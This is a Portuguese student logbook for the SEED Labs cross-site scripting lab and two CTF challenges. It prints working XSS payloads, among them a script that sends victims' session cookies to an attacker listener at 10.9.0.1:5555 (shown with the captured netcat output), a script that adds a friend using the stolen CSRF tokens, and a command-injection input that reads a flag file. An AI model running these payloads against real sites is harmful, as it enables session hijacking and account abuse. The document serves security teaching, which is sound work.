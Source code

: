 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```

![](./screenshots/logbook10_task1_1.png)

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

Muito semelhante à `task 1`. Tal como é sugerido no guião, substitui-se o código JavaScript da `task 1` pelo seguinte: 

```html
<script>alert(document.cookie);</script>
```

![](./screenshots/logbook10_task2_1.png) 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` (neste caso), o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador. 

![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

Na `task 2` apenas o utilizador visualizava as suas _cookies_. Para o atacante ter acesso às mesmas é necessário modificar o código JavaScript, como é sugerido no guião, para o seguinte:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

- Nota: A explicação do código acima foi omitida, uma vez que, a mesma já se encontra no guião.

![](./screenshots/logbook10_task3.png) 

De modo a ficar à escuta na porta 5555 e imprimir o pedido HTTP GET com as _cookies_, utilizou-se o comando `nc -lknv 5555`, cujo _output_ foi o seguinte:

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

É possível verificar que as _cookies_ recebidas na máquina do atacante coincidem com as que foram impressas na `task 2`.

## Task 4: Becoming the Victim’s Friend

De modo a perceber os pedidos HTTP (e os seus parâmetros) que são enviados ao servidor quando um utilizador (neste caso Alice) adiciona `Samy` à sua lista de amigos, isto é, quando clica no botão `Add friend` no perfil de `Samy`, fez-se _log in_ como Alice (username **alice** e password **seedalice**) e clicou-se no respetivo botão. O pedido HTTP capturado encontra-se na `Preparation` e foi o seguinte:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

Analisando o pedido, verifica-se que o URL é `http://www.seed-server.com/action/friends/add` e o valor do parâmetro `friend` é **59** (ID de Samy), que é usado para especificar o utilizador que deve ser adicionado à lista de amigos. Existem dois parâmetros, `__elgg_ts` e `__elgg_token`, que são contramedidas contra ataques `CSRF`, cujos valores são específicos da página e devem ser definidos devidamente no código de modo a evitar que o pedido seja tratado como _cross-site request_. Esses valores estão atribuídos a duas variáveis - `elgg.security.token.__elgg_ts` e `elgg.security.token.__elgg_token`, sendo estas utilizadas no código esqueleto nas linhas assinaladas 1 e 2. 
Com esta informação é possível completar o código esqueleto fornecido no guião:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;

        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        // Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts;

        // Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

O código acima foi colocado no campo `About me` na página do perfil de Samy usando o `Text mode`:

![](./screenshots/lobook10_task4_1.png) 
![](./screenshots/lobook10_task4_2.png) 
![](./screenshots/lobook10_task4_3.png) 

# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 



